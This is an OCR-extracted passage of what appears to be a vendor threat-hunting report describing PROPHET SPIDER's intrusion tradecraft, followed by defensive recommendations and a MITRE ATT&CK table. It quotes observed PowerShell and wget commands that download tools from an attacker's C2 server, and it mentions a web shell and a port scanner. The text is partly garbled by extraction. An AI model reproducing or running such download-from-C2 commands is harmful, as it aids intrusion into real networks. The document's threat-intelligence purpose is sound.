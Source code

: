 known to use.Why Windows When You Can Linux?The behavior that OverWatch observed next revealed PROPHET SPIDERs style and 
preferences. The adversary executed the following PowerShell command to retrieve 
and install a binary file:powershell \-Command (New\-Object
System.Net.WebClient).DownloadFile(:443wget.bin', 
'C:Windowstempwget.bin')Further analysis confirmed that this file from their external C2 server was a 
legitimate PE file version of the wget utility for use on Windows. This is a common 
approach OverWatch has observed PROPHET SPIDER take when operating in 
Windows environments. Typically, the servers they compromise for initial access 
are Linux\-based, so a repeated use of wget on Windows machines suggests their 
preference and comfort using traditional Linux tooling when possible.20https:attack.mitre.orgtechniquesT11052021 Threat Hunting Report30After installing wget.bin, the adversary immediately used it for additional ingress 
tool transfer. They proceeded to install a copy of 7zip:c:windowstemp7fdewget.bin \-t 1:4437z.bin \-O 
c:windowstemp7fde7z.binThey also used wget to retrieve a web shell with a file name of pia.jsp. Another tool 
they installed was their scanner of choice, a simple low\-prevalence network scanning 
tool often named pscan. The tool scans a range of IP addresses for one specific port. 
CrowdStrike has observed it in both PE and ELF versions, which is consistent with 
PROPHET SPIDERs focus on targeting both Linux and Windows servers. In this case, 
they used pscan to scan the network for openings on port 445 (SMB), likely in hopes 
of moving laterally.Conclusion and RecommendationsThanks to OverWatch threat hunters rapid discovery of the activity, the customer 
received the necessary information to cut off the adversarys access, preventing 
PROPHET SPIDER from using this network as its next resale opportunity for 
ransomware operators.Interestingly, the adversary returned one month later to the same server and attempted 
to perform similar TTPs. Such perseverance illustrates the determination of eCrime 
adversaries as they continue to mature and specialize in various functions of the eCrime 
ecosystem. It is an unfortunate fact that intrusions are rarely a one\-off event.21The best defense against opportunistic attacks by access brokers is to ensure your 
externally facing servers are fully patched. However, preventative measures are not 
a silver bullet. Adversaries may be able to bypass even robust and secure perimeters 
using a variety of techniques. Therefore, proactive threat hunting like what 
OverWatch provides is also essential. When threat hunters are effectively scouring 
your network for even the most subtle clues of a potential adversary presence, they 
can quickly home in on unusual behaviors, such as the living\-off\-the\-land discovery 
actions that PROPHET SPIDER used early in this intrusion.In addition to hunting for unexpected reconnaissance, defenders should also monitor 
their environment for potentially malicious ingress tool transfer. To do this effectively, 
defenders must continually monitor for unexpected processes retrieving files from 
external servers as well as uncommon network data flows. Defenders should also hunt 
for legitimate tools that eCrime adversaries like to use. Antivirus products typically 
will not block these tools because of their common and legitimate usage, but they can 
serve as a valuable lead in revealing an unwelcome user on your network.21Of those organizations that engaged CrowdStrike incident response services and went on to engage 
Falcon Complete managed detection and response (MDR), 68% were targeted within the following 12 
months by another sophisticated intrusion attempt, which was thwarted by Falcon Complete. For more infor\-
mation, see the 2020 CrowdStrike Services Cyber Front Lines Report.2021 Threat Hunting Report31PROPHET SPIDER at a GlancePROPHET SPIDER is known to target the following verticals.EnergyFinancialManufacturingMediaOil \& GasProfessional ServicesTechnologyTelecommunicationsTransportation \& LogisticsPROPHET SPIDERS TOP TTPsThe following TTPs were most used by PROPHET SPIDER in intrusions uncovered 
and observed by OverWatch threat hunters.TechniqueT\-NumberExploit Public\-Facing ApplicationRemote System DiscoveryAccount DiscoveryNetwork Service ScanningProcess DiscoverySystem Information DiscoverySystem Network Configuration DiscoverySystem Network Connections DiscoverySystem OwnerUser DiscoveryValid AccountsIndicator Removal on HostFile and Directory Permission ModificationApplication Layer ProtocolT1190T1018T1087T1046T1057T1082T1016T1049T1033T1078T1070T1222T1071Table 2\. TTPs most used by PROPHET SPIDER, July 2020 to June 20212021 Threat Hunting Report2021 Threat Hunting Report 32SPIDER Casts a Vishing Net
for Retail TargetI n the second quarter of 2021, a North America\-based retail employee received aINITIAL ACCESS